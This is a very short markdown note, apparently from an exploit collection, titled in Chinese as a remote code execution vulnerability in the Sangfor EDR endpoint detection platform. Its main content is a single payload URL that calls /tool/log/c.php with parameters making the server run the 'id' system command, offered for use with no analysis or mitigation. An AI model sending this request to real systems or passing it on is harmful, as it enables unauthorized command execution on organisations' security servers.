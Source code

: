 # 深信服EDR终端检测平台-RCE漏洞

PAYLOAD：

```
https://xxx.xxx/tool/log/c.php?strip_slashes=system&host=id
```

![](media/202008/15979366378383.jpg)
